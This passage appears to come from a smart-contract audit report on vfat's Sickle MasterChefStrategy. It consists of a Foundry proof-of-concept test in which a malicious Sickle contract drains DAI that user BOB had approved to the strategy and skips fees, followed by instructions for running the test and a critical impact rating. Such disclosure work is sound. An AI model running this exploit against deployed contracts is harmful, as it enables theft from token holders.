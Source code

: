 ```solidity
            Mainnet.SUSHISWAP_MASTERCHEF
        ).userInfo(2, address(maliciousSickle));
        assertEq(previousDepositedAmount, 0); //we have 0 deposit

        address[] memory routeToOther = new address[](2);
        routeToOther[0] = Mainnet.DAI;
        routeToOther[1] = Mainnet.WETH;

        MasterChefStrategy.ZapInData memory zapData = MasterChefStrategy
            .ZapInData({
            router: Mainnet.SUSHISWAP_ROUTER,
            tokenIn: Mainnet.DAI,
            amountIn: amountIn,
            routeToIntermediate: new address[](0),
            intermediateMinAmountOut: amountIn,
            routeToOther: routeToOther,
            otherMinAmountOut: 0,
            lpToken: Mainnet.SLP_DAI_WETH,
            lpTokenMinAmountOut: 0
        });

        masterChefStrategy.masterChef_deposit{ gas: 500_000 }(
            address(maliciousSickle),
            Mainnet.SUSHISWAP_MASTERCHEF,
            false,
            2,
            zapData
        );

        (depositedAmount,) = IMasterChef(Mainnet.SUSHISWAP_MASTERCHEF).userInfo(
            2, address(maliciousSickle)
        );
        console.log(depositedAmount);

        //attacker balance increased
        assertGt(depositedAmount, previousDepositedAmount);
        //fee collector didn't earn anything
        assertEq(IERC20(Mainnet.DAI).balanceOf(ctx.registry.collector()), 0);
        //BOB lost his tokens
        assertEq(IERC20(Mainnet.DAI).balanceOf(address(0xB0B)), 0);
}
```

You can copy and paste these two code blocks in the [MasterChef test file](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/test/strategies/MasterChefStrategy.t.sol)

And then run : `forge test --match-test test_deposit_DepositsUsingDAI_malicious`

#### Impact

Critical. An attacker can steal the tokens of all addresses with an approval to the strategy and pay no fees to the Vfat team.
